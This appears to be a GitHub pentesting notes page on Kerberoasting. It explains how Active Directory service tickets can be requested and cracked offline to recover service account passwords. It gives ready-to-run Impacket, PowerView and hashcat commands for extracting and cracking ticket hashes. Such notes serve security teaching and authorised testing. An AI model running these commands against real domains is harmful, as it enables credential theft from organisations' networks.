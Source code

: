 # Kerberoasting

## Overview

Kerberoasting is a post-exploitation attack technique used to extract service account credentials in Active Directory (AD) environments. It targets the way Kerberos, the authentication protocol used in AD, handles service tickets for accounts configured to use Service Principal Names (SPNs).

When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the service name (sname) of the service wanted. If the TGT is valid, and if the service exists, the KDC sends the ST to the requesting user.

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a service (by its SAN or SPN), he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. This is Kerberoasting.

## Kerberoast no pre-authentication

If an attacker knows of an account for which pre-authentication isn't required (i.e. an ASREProastable account), as well as one (or multiple) service accounts to target, a Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).


## Attack Requirements

- An authenticated user with a valid TGT

or

- An ASREProastable account
- The SPNS (service names)

## Attack Result

A TST to attempt to be cracked offline. If we crack the ticket we will have the password of the service.


## Attack Execution

### With Impacket

```
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip <domain_controller_ip> '<domain>/<username>:<password>'
```

### With Impacket  - no pre authentication

```
GetUserSPNs.py -no-preauth "<username>" -usersfile "<file_with_services_names>.txt" -dc-host "<domain_controller_ip>" "<domain_name>"/
```


### With PowerView

First search for users with SPN property

    Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName 

Then extract the hash for cracking

    Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

Do to all users with spn:

```powershell
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation
```
```shell
#then prepare file for hashcat
cat ilfreight_spns.csv | cut -d ',' -f 8 | python3 -c "import sys; [print(line.strip()) for line in sys.stdin]" | awk '{print substr($0,2,length($0)-2)}'
#finally run hashcat
hashcat -m 13100 ilfreight_spns /usr/share/wordlists/rockyou.txt
```

### Other Information

    https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting
    https://www.thehacker.recipes/ad/movement/kerberos/kerberoast